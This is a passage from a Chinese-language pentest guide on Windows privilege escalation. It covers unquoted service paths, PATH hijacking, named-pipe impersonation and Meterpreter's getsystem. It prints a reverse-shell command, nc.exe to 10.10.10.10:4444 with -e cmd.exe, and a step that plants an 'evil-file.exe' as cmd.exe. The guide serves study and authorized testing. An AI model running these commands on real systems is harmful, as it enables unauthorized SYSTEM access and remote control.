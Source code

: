     ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...

    # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```

## 利用 PATH 拦截提权
利用条件：
- PATH 路径中存在可写路径
- 可写文件夹位于包含合法可执行文件的文件夹之前。

示例：
ps 中执行如下的命令查看 PATH
```powershell
$env:Path
```
假设输出为:`C:\Program Files\nodejs\;C:\WINDOWS\system32`

检查 C:\Program Files\nodejs 文件夹的权限发现可写。
```
icacls.exe "C:\Program Files\nodejs\"
```
由于 nodejs 在 system32 之前，因此可以向 nodejs 文件夹中写入 cmd.exe，下次用户再执行 cmd 时，则会执行 nodejs 中的 cmd.exe
```bat
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```

## 利用 Name Pipe 提权
### 利用服务自身的漏洞或功能
找到存在命名管道的服务，挖掘服务漏洞或可用功能，利用 Name Pipe 操作这些功能或直接利用漏洞获取到高权限。

利用步骤：
1. Find named pipes: [System.IO.Directory]::GetFiles("\\.\pipe\")
2. Check named pipes DACL: pipesec.exe <named_pipe>
3. Reverse engineering software
4. Send data throught the named pipe : program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe

### meterpreter 中的 getsystem
有代表性的 EXP 如 meterpreter 中的 getsystem 命令。该技术的核心在于对 ImpersonateNamedPipeClient API 的利用，通过命名管道的服务端进程模仿客户端进程的访问令牌，获取 SYSTEM 权限。当然，想调用它，前提是进程具备 SeImpersonatePrivilege 的权限，而这通常意味着我们已经是 Admin 用户了。

利用细节：
1) getsystem 新建一个线程创建命名管道并等待服务发来的连接 (服务端)
2) getsystem 创建了一个以 SYSTEM 权限运行的 Windows 服务，该服务会向命名管道发起连接 (客户端)
3) 启动该服务，向目标命名管道发起连接 (客户端 -> 服务端)
4) 该进程(服务端)接收连接，调用 ImpersonateNamedPipeClient，从而模仿了 SYSTEM 权限的访问令牌
5) 完成提权过程后，停止并删除该服务
